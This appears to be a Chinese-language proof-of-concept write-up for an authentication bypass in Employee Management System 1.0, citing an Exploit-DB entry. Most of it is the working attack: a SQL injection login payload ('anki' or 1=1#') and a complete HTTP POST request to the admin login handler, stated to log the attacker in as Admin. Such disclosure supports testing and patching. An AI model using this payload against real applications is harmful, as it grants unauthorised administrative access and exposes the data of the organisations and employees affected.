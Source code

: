 # 

# 员工管理系统 Employee Management System 1.0 身份验证绕过

## 漏洞描述

漏洞发现时间：2020-10-16

软件下载地址：https://www.sourcecodester.com/sites/default/files/download/razormist/employee-management-system.zip

验证环境：Windows 10 + xampp v3.2.4

参考链接：

- https://www.exploit-db.com/exploits/48882

## 漏洞复现

打开网址：

```
http://localhost:8081/Employee%20Management%20System/alogin.html
```

通过payload绕过验证：

```
anki' or 1=1#
```

发送请求：

```
POST /Employee%20Management%20System/process/aprocess.php HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/Employee%20Management%20System/alogin.html
Cookie: PHPSESSID=infdfigld4et4jndfgbn33kcsv
Upgrade-Insecure-Requests: 1

mailuid=anki%27+or+1%3D1%23&pwd=anki%27+or+1%3D1%23&login-submit=Login
```

将以Admin身份登录应用
